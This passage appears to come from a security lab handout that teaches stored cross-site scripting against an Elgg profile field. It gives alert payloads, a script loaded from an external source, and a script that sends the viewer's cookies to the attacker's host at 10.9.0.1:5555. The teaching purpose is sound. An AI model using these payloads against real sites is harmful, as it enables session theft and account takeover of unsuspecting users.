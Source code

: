 The following JavaScript code will display an alert window:

```js
<script>alert('XSS');</script>
```

If you embed the above JavaScript code in your profile (e.g., in the brief description field),
then any user who views your profile will see the alert window.
In this case, the JavaScript code is short enough to be typed into the short description field.
If you want to run a more substantial piece of JavaScript,
but you are limited by the number of characters you can type in the form,
you can store the JavaScript code in a standalone file, save it with the `.js` extension,
and then refer to it using the `src` attribute in the `<script>` tag.
For example:

```js
<script type="text/javascript"
    src="http://www.example.com/myscripts.js">
</script>
```

In this example, the page will fetch the JavaScript code from <http://www.example.com>, which can be any web server.

### Task 2: Post a Malicious Message to Display Cookies

The objective of this task is to embed JavaScript code in your Elgg profile, such that when another user views your profile, the user's cookies will be displayed in the alert window.
This can be done by adding additional code to the JavaScript code from the previous task:

```js
<script>alert(document.cookie);</script>
```

### Task 3: Steal Cookies from the Victim's Machine

In the previous task, the malicious JavaScript code written by the attacker can print out the user's cookies, but only the user can see the cookies, not the attacker.
In this task, the attacker wants the JavaScript code to send the cookies to somewhere that the attacker can access the information.
To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookies appended to the request.

We can do this by having the malicious JavaScript insert an `<img>` tag with its `src` attribute set to the attacker's machine.
When the JavaScript inserts the `img` tag, the browser tries to load the image from the URL in the `src` field;
this results in an HTTP GET request sent to the attacker's machine.
The JavaScript given below sends the cookies to port 5555 of the attacker's machine (with IP address `10.9.0.1`),
where the attacker has a TCP server listening on the same port.

```js
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>
```
